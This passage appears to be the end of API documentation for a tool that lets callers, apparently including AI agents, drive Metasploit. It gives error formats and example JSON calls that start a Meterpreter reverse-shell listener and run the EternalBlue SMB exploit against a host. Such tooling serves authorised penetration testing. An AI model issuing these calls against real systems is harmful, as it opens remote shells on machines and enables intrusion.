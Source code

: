 **Returns:**
- `status`: "healthy" or "unhealthy"
- `metasploit_connected`: Boolean indicating Metasploit connection status
- `version`: Metasploit version if connected

## Error Handling

All tools return a consistent error format:

```json
{
  "status": "error",
  "message": "Human-readable error description"
}
```

Common error scenarios:
- Invalid parameters
- Metasploit RPC connection issues
- Module not found
- Session/job not found
- Timeout errors
- Permission errors

## Examples

### Starting a Listener

```json
{
  "tool": "start_listener",
  "arguments": {
    "payload_type": "windows/meterpreter/reverse_tcp",
    "lhost": "192.168.1.100",
    "lport": 4444,
    "reverse_listener_bind_address": "0.0.0.0"
  }
}
```

### Running an Exploit

```json
{
  "tool": "run_exploit",
  "arguments": {
    "module_name": "windows/smb/ms17_010_eternalblue",
    "options": {
      "RHOSTS": "192.168.1.50",
      "RPORT": 445
    },
    "payload_name": "windows/x64/meterpreter/reverse_tcp",
    "payload_options": {
      "LHOST": "192.168.1.100",
      "LPORT": 4444
    },
    "check_vulnerability": true
  }
}
```
